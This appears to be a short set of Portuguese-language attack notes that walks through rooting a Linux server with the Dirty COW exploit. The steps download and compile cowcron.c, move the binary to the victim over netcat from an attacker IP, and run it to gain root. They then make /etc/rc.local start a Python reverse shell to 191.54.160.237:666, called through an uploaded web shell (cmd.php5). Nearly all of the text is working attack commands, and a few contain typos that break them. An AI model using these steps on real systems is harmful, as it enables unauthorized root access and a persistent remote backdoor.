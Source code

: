 > ver a versão do kernel
```sh
uname -a
```

> https://dirtycow.ninja/

> https://github.com/securifera/cowcron/blob/master/cowcron.c

> compilar o codigo cowcron.c no linux
```sh
    wget https://raw.githubusercontent.com/securifera/cowcron/master/cowcron.c
    gcc -pthread cowcron.c -o cowcron
```
> Colocar o net cat em escuta

- do lado do atacante
```sh
    nc -lvp 666 < cowroot
```

- do lado da vitima
```php
    nc 191.54.160.237 666 > cowroot
```

> validar a Integridade com o md5sum
```sh
    md5sum cowroot
```

> dar permissão de execução
```sh
    chmod +x cowroot
```
> execucar o ficheiro
```sh
    ./cowroot
```

> Ok ja temos privilégios de super user, mas o servidor bloqueia passado pouco tempo. Então:

> Criar um script
- olhar o ficheiro rc.local

```cat /etc/rc.local ```

- copiar o ficheiro para home (estou nesse local)

```cp /etc/rc.local . ```

- Alterar o ficheiro - adicionar o comando para shel reversa
```sh
#####
# Texto que ja existe no documento
#####
bancocn.com/admin/uploads/cmd.php5?comando=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("191.54.160.237", 666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' & 

exit 0
```

- Criar um script _script.sh_
```sh
    mv rc.local /etc/rc.local
    chmod 755 /etc/rc.local
    chown root:root /etc/rc.local
```

- dar permissão de execução

``` 
    chmos +x script.sh 
```

- Executar o cowroot

``` 
    ./cowroot 
```

- Executar o script

``` 
    ./script.h 
```

- reboot
``` 
    reboot 
```
